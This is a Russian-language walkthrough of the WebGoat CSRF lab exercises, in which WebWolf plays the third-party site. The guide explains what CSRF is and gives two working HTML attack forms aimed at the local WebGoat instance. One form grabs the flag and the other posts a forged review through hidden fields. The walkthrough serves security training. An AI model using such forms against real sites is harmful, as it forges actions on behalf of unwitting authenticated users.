








# CSRF

Подделка межсайтовых запросов (CSRF) — это атака, которая заставляет конечного пользователя выполнять нежелательные действия в веб-приложении, в котором он в данный момент аутентифицирован. С помощью социальной инженерии (например, отправив ссылку по электронной почте или в чате) злоумышленник может обманным путём заставить пользователей веб-приложения выполнить действия по своему выбору. Если жертва — обычный пользователь, успешная атака CSRF может заставить пользователя выполнить запросы на изменение состояния, например, перевести средства, изменить адрес электронной почты и так далее. Если жертвой является учётная запись администратора, CSRF может скомпрометировать всё веб-приложение.

## База

Внимательно прочитайте описание данной атаки.

1. Для проведения базовой CSRF атаки нам необходимо выполнить некоторое действие на WebGoat с другого сайта. Для имитации стороннего сайта в WebGoat используется инструмент WebWolf, который позволяет обслуживать файлы, прослушивать почту и т.д. В данном задании нам нужно будет создать собственный HTML файл с формой, который будет выступать в роли наживки для социальной инженерии. Для этого создадим файл `test.html` со cледующим содержимым.

```html
<form method="POST" action="http://debian:8081/WebGoat/csrf/basic-get-flag">
    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit" value="Get money!!!!">
</form>
```

2. После чего загрузить файл на WebWolf, перейти к файлу и отправить форму.





3. Таким образом отработала простая CSRF. Попробуем провернуть более сложную и реальную CSRF. Попробуем отправить отзыв от имени другого пользователя. Для этого посмотрим, какие параметры передаются при отправке отзыва.

4. Следовательно, нам нужно создать форму, которая будет отправлять следующие параметры: `reviewText`,`start`,`validateReq`. Сделать это можно следующим образом (заметьте, что используются теги hidden, которые делают отправляемые параметры невидимыми).
```html
<form method="POST" action="http://debian:8081/WebGoat/csrf/review">
    <input type="hidden" name="reviewText" type="text" value="VERY BAD">
    <input type="hidden" name="stars" type="text" value="0">
    <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
    <input type="submit" name="submit" value="Get money">
</form>
```
5. Загружаем данный файл точно так же и отправляем плохую рецензию.


6. Выполните пункты 7 и 8 самостоятельно, зная основы CSRF.